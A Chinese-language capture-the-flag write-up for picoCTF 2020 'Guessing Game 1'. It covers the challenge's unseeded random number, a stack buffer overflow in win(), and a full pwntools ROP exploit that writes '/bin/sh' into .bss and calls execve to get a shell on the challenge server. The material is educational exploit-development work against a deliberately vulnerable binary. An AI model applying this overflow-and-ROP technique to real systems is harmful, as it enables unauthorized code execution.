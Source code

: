 ```yaml
---
title: "picoCTF2020 Guessing Game 1"
date: 2020-10-14
draft: false
tags: ["picoCTF", "CTF", "pwn"]
categories: ["picoCTF"]
---
```


這題目花了我好幾個小時

https://play.picoctf.org/events/3/challenges/challenge/90

## 開始

我們先看看 Makefile

```make
all:
  gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
  rm vuln
```

這個程式可能有 Buffer Overflow，它用 static link，不能改 plt, got

看看 `do_stuff` 和 `get_random`

```c
long get_random() {
  return rand() % BUFSIZE;
}
int do_stuff() {
  long ans = get_random();
  ans = increment(ans);
  int res = 0;

  printf("What number would you like to guess?\n");
  char guess[BUFSIZE];
  fgets(guess, BUFSIZE, stdin);

  long g = atol(guess);
  if (!g) {
    printf("That's not a valid number!\n");
  } else {
    if (g == ans) {
      printf("Congrats! You win! Your prize is this print statement!\n\n");
      res = 1;
    } else {
      printf("Nope!\n\n");
    }
  }
  return res;
}

```

輸入用 `fgets`，沒有 Buffer Overflow

但 `rand` 沒有初始化，它的值一直是固定的

用 gdb 可以很快找到 `ans` 的值

![](/img/picoCTF2020-Guessing-Game-1/random_num.png)
`ans` 固定為 `84`

> 補注: 截圖沒有截到 `rax`，但是 `rax` 應是 84

可以進到 `win` 裡面了
![](/img/picoCTF2020-Guessing-Game-1/access_first_level.png)

## 決定攻擊手法

`win` 裡面有 Buffer Overflow，明明 `BUFSIZE` 只有 100，卻可以填 360 個字元

```c++
// BUFSIZE = 100
void win() {
  char winner[BUFSIZE];
  printf("New winner!\nName? ");
  fgets(winner, 360, stdin);
  printf("Congrats %s\n\n", winner);
}
```

找到 padding
![](/img/picoCTF2020-Guessing-Game-1/offset.png)

```python
payload = 'a'*120
```

問題來了，我們可以用什麼方法破解它?

1. Shellcode<br>
   不行，有開 NX
2. return to libc<br>
   它用 static link
3. Format string<br>
   printf 看起來不能利用
4. ROP<br>
   好像可以

**決定用 ROP**

## 編寫 ROP chain

使用 ROPgadget
找不到 `pop eax`，只有 `pop rax`
![](/img/picoCTF2020-Guessing-Game-1/cannot_find_pop_eax.png)

把 `/bin/sh` 放到 `.bss` 段

```python
payload += flat([pop_rax, buf, pop_rdx, '/bin', mov_drax_edx, \
                 pop_rax, buf+4, pop_rdx, '/sh\x00', mov_drax_edx])
```

system call execve 參數

- eax: 11
- ebx: 字串 `/bin/sh` 的位置
- ecx: 0
- edx: 0

```python
payload += flat([pop_rbx, buf, pop_rax, 11, pop_rdx, 0, int_0x80])
```

> rcx 找不到適合的 gadget，只好先不理它，反正它常常是 0

> 想知道更多 system call 用法，可以到這個網站
> https://syscalls.w3challs.com/?arch=x86

## 暫存器尺寸

原本以為沒事了，沒想到...
![](/img/picoCTF2020-Guessing-Game-1/reg_size_problem.png)
輸入的資料會黏在一起

我們輸入的是 32-bit，但卻用 64-bit 的暫存器，所以必須在資料後面加上 4 個`\x00`

如果你用 flat，可以在每個指令後面都加入一個 0

```python
flat([pop_rbx, 0, buf, 0, pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
```

## 成果

```python
from pwn import *

context.arch = 'i386'
#r = process('./vuln')
r = remote('jupiter.challenges.picoctf.org', 39936)

s = r.recvuntil('?\n')

r.sendline('84')

buf = 0x6bc3a0
pop_rax = 0x4163f4
pop_rbx = 0x400ed8
pop_rdx = 0x44a6b5
mov_drax_edx = 0x48dd72
mov_rax_rdx = 0x41b570
int_0x80 = 0x468fea

payload = 'a'*120
payload += flat([pop_rax, 0, buf, 0, pop_rdx, 0, '/bin',0 , mov_drax_edx, 0,
                 pop_rax, 0, buf+4, 0, pop_rdx, 0, '/sh\x00',0 , mov_drax_edx, 0])
payload += flat([pop_rbx, 0, buf, 0, \
                 pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
# 有夠醜

raw_input()

r.recvuntil('? ')
r.sendline(payload)

r.interactive()
```

![](/img/picoCTF2020-Guessing-Game-1/final.png)
